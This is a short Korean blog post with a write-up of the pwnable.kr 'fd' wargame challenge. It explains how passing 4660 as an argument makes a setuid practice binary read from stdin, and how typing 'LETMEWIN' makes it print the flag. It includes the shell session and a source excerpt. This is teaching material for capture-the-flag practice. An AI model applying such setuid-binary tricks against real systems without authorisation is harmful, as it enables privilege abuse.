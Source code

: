 ```yaml
---
title: "pwnable.kr - Toddler's bottle #0 fd"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #0 fd 문제 풀이

fd에 setuid bit가 걸려있으므로 flag를 읽을수 있음

~~~
fd@pwnable:~$ ls -als
total 40
4 drwxr-x---   5 root   fd   4096 Oct 26  2016 .
4 drwxr-xr-x 116 root   root 4096 Nov 12 21:34 ..
4 d---------   2 root   root 4096 Jun 12  2014 .bash_history
8 -r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
4 -rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
4 -r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
4 -rw-------   1 root   root  128 Oct 26  2016 .gdb_history
4 dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
4 drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
~~~

fd.c 를 보면
~~~
...
int fd = atoi( argv[1] ) - 0x1234;
...
len = read(fd, buf, 32);
...
if(!strcmp("LETMEWIN\n", buf)){
    printf("good job :)\n");
    system("/bin/cat flag");
    exit(0);
}
~~~

이렇게 되어 있다. 리눅스에서 0은 stdin, 1은 stdout 이다.
따라서 argv[1] 이 0x1234 = 4660이면 read가 stdin = 키보드 입력을 읽을 것이고,
이때 LETMEWIN을 넣으면 /bin/cat flag가 실행된다

~~~
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
<tag output>
~~~

[pwnable.kr]: https://pwnable.kr

<!-- mommy! I think I know what a file descriptor is!! -->